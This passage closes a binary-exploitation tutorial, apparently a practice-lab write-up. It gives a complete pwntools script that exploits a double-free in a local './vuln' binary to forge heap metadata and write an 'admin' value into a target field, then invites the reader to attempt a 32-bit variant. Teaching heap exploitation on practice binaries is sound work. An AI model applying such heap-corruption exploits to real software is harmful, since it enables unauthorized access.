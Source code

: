 Awesome - we completed the level!

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()


def create(name='a'):
    p.sendlineafter('>> ', '1')
    p.sendlineafter('Name: ', name)

def delete(idx):
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Index: ', str(idx))

def complete():
    p.sendlineafter('>> ', '3')
    print(p.recvline())

p.recvuntil('data: ')
fake_metadata = int(p.recvline(), 16) - 8

log.success('Fake Metadata: ' + hex(fake_metadata))

create('yes')
create('yes')
delete(0)
delete(1)
delete(0)

create(p64(fake_metadata))
create('junk1')
create('junk2')

create('\x00' * 8 + 'admin\x00')
complete()
```

## 32-bit

Mixing it up a bit - you can try the _32-bit_ version yourself. Same principle, offsets a bit different and stuff. I'll upload the binary when I can, but just compile it as 32-bit and try it yourself :\)

